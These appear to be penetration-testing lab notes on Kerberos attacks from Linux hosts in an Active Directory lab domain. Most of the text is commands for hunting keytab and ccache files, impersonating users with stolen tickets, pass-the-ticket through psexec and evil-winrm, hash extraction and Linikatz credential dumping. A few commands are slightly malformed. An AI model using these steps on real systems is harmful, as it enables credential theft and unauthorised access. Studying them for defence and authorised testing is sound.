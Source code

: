 In most cases, Linux machines store Kerberos tickets as [ccache files](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html) in the `/tmp` directory. By default, the location of the Kerberos ticket is stored in the environment variable `KRB5CCNAME`. This variable can identify if Kerberos tickets are being used or if the default location for storing Kerberos tickets is changed. These [ccache files](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html) are protected by reading and write permissions, but a user with elevated privileges or root privileges could easily gain access to these tickets.

Another everyday use of Kerberos in Linux is with [keytab](https://kb.iu.edu/d/aumh) files. A [keytab](https://kb.iu.edu/d/aumh) is a file containing pairs of Kerberos principals and encrypted keys (which are derived from the Kerberos password). You can use a keytab file to authenticate to various remote systems using Kerberos without entering a password. However, when you change your password, you must recreate all your keytab files.

### Identifying Linux and Active Directory Integration
```bash
realm list
```

```bash
ps -ef | grep -i "winbind\|sssd"
```

### Hunting Kerberos Tickets
```bash
find / -name *keytab* -ls 2>/dev/null
find / -name *kt* -ls 2>/dev/null
```

> [!NOTE] Note
> To use a keytab file, we must have read and write (rw) privileges on the file.

Keytabs might also be hiding in cronjobs
```bash
~$ crontab -l

# Edit this file to introduce tasks to be run by cron.
# 
<SNIP>
# 
# m h  dom mon dow   command
*5/ * * * * /home/carlos@inlanefreight.htb/.scripts/kerberos_script_test.sh
```

```bash
~$ cat /home/carlos@inlanefreight.htb/.scripts/kerberos_script_test.sh
#!/bin/bash

kinit svc_workstations@INLANEFREIGHT.HTB -k -t /home/carlos@inlanefreight.htb/.scripts/svc_workstations.kt
smbclient //dc01.inlanefreight.htb/svc_workstations -c 'ls'  -k -no-pass > /home/carlos@inlanefreight.htb/script-test-results.txt
```

In the above script, we notice the use of [kinit](https://web.mit.edu/kerberos/krb5-1.12/doc/user/user_commands/kinit.html), which means that Kerberos is in use. [kinit](https://web.mit.edu/kerberos/krb5-1.12/doc/user/user_commands/kinit.html) allows interaction with Kerberos, and its function is to request the user's TGT and store this ticket in the cache (ccache file). We can use `kinit` to import a `keytab` into our session and act as the user.

> [!NOTE] Note
> The ticket is represented as a keytab file located by default at `/etc/krb5.keytab` and can only be read by the root user. If we gain access to this ticket, we can impersonate the computer account LINUX01$.INLANEFREIGHT.HTB

Locating ccache files
```shell
$ env | grep -i krb5
KRB5CCNAME=FILE:/tmp/krb5cc_647402606_qd2Pfh
```

## Abusing KeyTab Files
List KeyTab file information
```bash
klist -k -t /opt/specialfiles/carlos.keytab
```
Impersonate user using a KeyTab (case sensitive)
```bash
klist 
kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
klist
```
This will apply to our current shell privilege wise and allow us to access services as carlos
```bash
smbclient //dc01/carlos -k -c ls
```

> [!NOTE] Note
> To keep the ticket from the current session, before importing the keytab, save a copy of the ccache file present in the environment variable KRB5CCNAME
#### Extracting and Cracking KeyTab Hashes
We can attempt to crack the account's password by extracting the hashes from the keytab file. Let's use [KeyTabExtract](https://github.com/sosdave/KeyTabExtract), a tool to extract valuable information from 502-type .keytab files, which may be used to authenticate Linux boxes to Kerberos

```bash
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 
```
## Abusing Keytab ccache
To abuse a ccache file, all we need is read privileges on the file. These files, located in `/tmp`, can only be read by the user who created them, but if we gain root access, we could use them.
```bash
id julio@INLANEFREIGHT.HTB
cp /tmp/krb5cc_647401106_I8I133
export KRB5CCNAME=/root/krb5cc_647401106_I8I133
klist
```

```bash
smbclient //dc01/C$ -k -c ls -no-pass
```
## PtT w/ attacking machine

```bash
export KRB5CCNAME=$(pwd)/krb5cc_647401106_I8I133
```

To use the Kerberos ticket, we need to specify our target machine name (not the IP address) and use the option -k. If we get a prompt for a password, we can also include the option -no-pass
```bash
impacket-psexec dc01 -k
```

Evil-WinRM needs the`krb5-user` package. Slap the domain and KDC FQDN in there
```bash
sudo apt-get install krb5-user -y
```

```bash
adot8@htb[/htb]$ cat /etc/krb5.conf

[libdefaults]
        default_realm = INLANEFREIGHT.HTB

<SNIP>

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    } 

<SNIP>
```

```bash
evil-winrm -i dc01 -r inlanefreight.htb
```

### Ticket Convertion
If we want to use a `ccache file` in Windows or a `kirbi file` in a Linux machine, we can use [impacket-ticketConverter](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py) to convert them. To use it, we specify the file we want to convert and the output filename. Let's convert Julio's ccache file to kirbi. 

```shell
impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi
```

The reverse can also be done
```bash
impacket-ticketConverter julio.kirbi krb5cc_julio
```

### Linikatz (root required)
[Linikatz](https://github.com/CiscoCXSecurity/linikatz) will extract all credentials, including Kerberos tickets, from different Kerberos implementations such as FreeIPA, SSSD, Samba, Vintella, etc. Once it extracts the credentials, it places them in a folder whose name starts with `linikatz.`

```bash
./linikatz.sh
```